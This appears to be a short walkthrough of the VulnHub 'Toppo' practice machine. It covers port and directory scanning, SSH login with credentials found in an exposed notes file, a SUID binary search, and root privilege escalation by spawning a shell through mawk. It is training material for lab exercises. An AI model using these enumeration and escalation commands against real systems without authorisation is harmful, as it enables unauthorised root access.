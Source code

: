 # VulnHub Walkthrough: 🔝 Toppo

Running `nmap -p0-65535 <ipaddr>` tells us *ssh & http* are open.

1. Run a *dirb* scan while you're looking through the source code of the website (http://[IP Address]): `dirb http://<ipaddr>`

2. Dirb returns http://[IP Address]/*admin*. Taking a deeper look at the source code of this page, we find *notes.txt* containing:
     * username: ***ted*** &  password: ***12345ted123***

3. From there we can use the secure shell host protocol, 22, to login - `ssh ted@<ipaddr>` , enter "yes" & password.

4. Once you're in, use `pwd` to "**p**rint **w**orking **d**irectory", & `whoami` to output the user you are logged in as.

5. Next find a list of all programs the logged in user has permissions to:
     * `find / -perm -u=s -type f 2>/dev/null`

6. Within the output we see that *mawk* is available, which we will then use to spawn in sh shell (see [GTFOBins](https://gtfobins.github.io/gtfobins/mawk/#sudo)):
     * `mawk 'BEGIN {system("/bin/sh")}'`

7. Once it has spawned, find & print the flag:
     * `cd root; cat flag.txt`
